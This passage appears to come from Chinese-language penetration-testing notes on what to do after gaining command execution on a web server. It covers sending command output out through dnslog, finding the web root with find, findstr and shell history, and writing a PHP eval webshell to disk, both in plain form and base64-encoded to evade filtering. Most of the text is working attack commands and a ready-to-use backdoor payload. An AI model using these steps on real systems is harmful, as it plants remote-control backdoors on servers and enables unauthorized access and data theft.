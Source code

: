 (2) 确认web应用物理路径，然后写shell

> 利用find寻找这个文件的路径，并将路径输出到与这个文件相同的路径下
>
> 通过pwd、ls、cd等命令将结果发送到dnslog

### 无回显不出网

(1) 主要是寻找web路径并写shell

> 定位Web特殊文件路径并将路径写入当前目录下的txt文件

## 寻找web路径

### 文件查找法

一般web路径一定会有index.html\php\jsp\asp，login.xxx文件。可以根据已知页面文件名全局搜索

    linux:
    find / -name index.php
    find / -name index.*
    
    windows:
    for /r d:/ %i in (index.html) do @echo %i
    for /r d:/ %i in (index.*) do @echo %i
    
### 源码查找法

也可以选择打开当前已知web页面的f12查看源码，寻找一段特征足够明显的源码进行查找

    linux:
    find / -name "*.*" | xargs grep "PHP installed properly"
    find /var/www/ -name "*.php" | xargs grep "doServerTest()"
     
    windows:
    findstr /s/i/n /d:D:\sec_tools\ /c:"html" *.html
    findstr /s/i/n /d:C:\windows\ /c:"success" *.*
    
### history、grep等

    history | grep nginx
    history | grep tomcat
    history | grep http
    
## 写入webshell方式

### echo直接写入 

    echo '<?php eval($_POST[1]); ?>' > 1.php
    
### base64写入 
    
    echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >2.php
